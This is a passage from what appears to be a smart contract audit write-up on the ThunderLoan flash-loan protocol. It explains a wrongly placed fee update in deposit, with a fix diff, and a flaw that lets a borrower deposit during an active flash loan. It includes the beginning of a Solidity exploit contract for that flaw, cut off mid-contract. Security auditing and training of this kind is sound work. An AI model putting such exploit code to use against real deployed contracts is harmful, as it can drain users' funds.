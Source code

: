 
```shell
 Expected redeem amount: 1000.3e18 [1e21]
 Actual redeem amount: 1003.3009e18 [1.003e21]
 Actual ThunderLoan balance: 1000e18
```

In this example, an additional `9e14` fee is included. Since the fee update happens in `deposit`, this vulnerability will inevitably be triggered, causing the ThunderLoan fee to increase so much that even spending all the pool’s balance cannot redeem the full amount.

This coding appears to be erroneous because there is no comment in `deposit` clarifying why the fee is calculated during deposit. To fix this vulnerability, simply remove the following code:


```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```


## Incorrect revert Condition Causes Entire Balance Loss

At the end of the `flashloan` function, there is a condition:


```javascript
        uint256 endingBalance = token.balanceOf(address(assetToken));
        if (endingBalance < startingBalance + fee) {
            revert ThunderLoan__NotPaidBack(startingBalance + fee, endingBalance);
        }
```


This logic itself is not wrong, but since the `deposit` function does not check whether a loan is ongoing, users can deposit during an active loan, artificially triggering this revert and causing a complete loss of balance.

The exploitation process is split into two parts: first, a contract is created whose main functions are to deposit and then attempt to redeem (triggering the vulnerability); second, the main test contract creates a function to execute the full exploit flow.


```javascript
contract DepositOverRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    IERC20 s_token;

    constructor(address _thunderLoan) {
        thunderLoan = ThunderLoan(_thunderLoan);
    }

    function executeOperation(address token, uint256 amount, uint256 fee, address initiator, bytes calldata params) external returns (bool) {
        s_token = IERC20(token);
        assetToken = thunderLoan.getAssetFromToken(IERC20(token));
        IERC20(token).approve(address(thunderLoan), amount + fee);
        thunderLoan.deposit(IERC20(token), amount + fee);
        return true;
    }
```
